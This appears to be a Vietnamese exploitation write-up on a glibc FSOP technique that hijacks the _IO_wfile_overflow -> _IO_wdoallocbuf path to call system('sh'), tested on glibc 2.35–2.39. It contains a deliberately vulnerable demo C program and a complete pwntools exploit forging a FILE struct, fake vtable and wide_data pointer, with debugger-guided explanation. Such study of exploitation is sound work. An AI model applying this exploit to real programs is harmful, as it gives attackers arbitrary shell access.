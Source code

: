 Lấy cảm hứng từ 2 link [this](https://aneii11.github.io/p/fsop-code-execution/#to-do) and [this](https://niftic.ca/posts/fsop/#_io_wdoallocbuf43).
Tiếp nối phần đầu nhưng với điều kiện restrict hơn.
Test thành công trên `glibc 2.35`, `2.38`, `2.39` (same code path).
# Scenery

Có khả năng ghi đè file struct nào đó của chương trình, required file pointer address (thường thì nếu dùng `fopen` thì file struct sẽ được init trên heap -> heap leak vẫn thỏa mãn).

Có thể overwrite lên file struct đó ít nhất `0xe8 bytes`.

Có libc leak.

Ở phiên bản không có file pointer, thì cân nhắc target `stdout`, update ở readme3.

# POC

## Demo code C

Chỉ cần compile theo hướng dẫn của shogun (tùy theo glibc version):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    char *buf;
    FILE *fp = fopen("/dev/null", "w");
    
    printf("libc leak: %p\n", stdout);

    printf("file pointer leak: %p\n", fp);

    printf("overwrite file struct: ");
    read(0, fp, 0xE8);

    buf = malloc(0x10);
    fwrite(buf, 1, 10, fp);

    return 0;
}
```

Cho libc leak và file pointer address, không có hàm `win` và size input bé hơn, mục đích là để merge 2 buffer vào thành một.

## Demo exploit

Compile trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 200
b *main + 243
b *_IO_wdoallocbuf
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

p.recvuntil(b"pointer leak: ")
fileptr = int(p.recvline(), 16)
print(hex(fileptr))

system = libc_base + libc.symbols['system']
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._lock = fileptr + 0x50
fp._wide_data = fileptr
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
payload = bytes(fp) + p64(fileptr + 0x10 - 0x68)

p.sendafter(b"struct: ", payload)

p.interactive()
```

<mark>Với các phiên bản khác chỉ cần thay đổi đoạn tính toán `libc_base`</mark>.

# Idea

Tương tự như trước, code path của exploit này vẫn là target `_IO_wfile_overflow` -> `_IO_wdoallocbuf` -> `_IO_WDOALLOCATE`. fake vtable và `_wide_data` về buffer mà mình kiểm soát.

## Call `_IO_wfile_overflow`

Exploit shift table đi sao cho thay vì gọi `_IO_new_file_xsputn` sẽ gọi `_IO_wfile_overflow`:

```
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
```

## Call `_IO_wdoallocbuf`

Exploit vẫn dùng flag như cũ, để bypass qua các `if` trong source code. Lợi dụng thêm 4 bytes sau của `flag` để tạo thành strings `???..??||sh\x00` thuận tiện cho việc exploit (I'll talk about this later) (có thể thay thành `???..??;sh;` vẫn được).

```
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
```

## Call `_IO_WDOALLOCATE`

After all requires are met, now let's see inside the function `_IO_wdoallocbuf`:

![](attachments/image07.png)

Our goals is to call `_IO_WDOALLOCATE (fp)` (as it will).

![](attachments/image08.png)

Khi thực hiện gọi hàm, chú ý đến 2 câu instructions này

```
mov    rax, qword ptr [rax + 0xe0]
call   qword ptr [rax + 0x68]
```

![](attachments/image09.png)

Khi nhìn trong debug, ta thấy `rax` trỏ vào `file pointer`. 2 intrustions kia thực hiện gọi hàm qua `_wide_data->_wide_vtable`

Đầu tiên sẽ gán `rax` = value được lưu `[rax + 0xe0]`, là giá trị mà exploit đã fake đằng sau `bytes(fp)`:

```
payload = bytes(fp) + p64(fileptr + 0x10 - 0x68)
```

Sau đó sẽ gọi hàm được lưu trong `[rax + 0x68]` hay chính xác hơn là ở `fileptr + 0x10`. Ở `fileptr + 0x10` là vị trí của `_IO_read_end`, thứ mà ta đã gán sang `system` address:

```
fp._IO_read_end = system
```

![](attachments/image10.png)

Và `rdi` lúc này cũng đang trỏ vào `flag`, thứ hiện có giá trị là:

![](attachments/image11.png)

Sẽ gọi `system("sh")` và thành công chiếm shell.

## Attention

Ta vẫn phải lưu ý điều kiện của giá trị `_lock`: trỏ vào vùng có write permission và có null value.
Sau một hồi debug, mình nhận thấy ở `_IO_backup_base` (offset `0x50`) thường có value 0, nên quyết định lấy giá trị này (thật ra nếu ta có thể ghi đè file struct thì đặt ở offset nào cũng thoải mái).

```
fp._lock = fileptr + 0x50
```

Tuy nhiên có thể đổi sang vùng khác để an toàn hơn (just in case), trên file struct nằm trên heap region thì nhiều vô kể, còn nếu nằm trên libc như `stdout` thì tùy cơ ứng biến.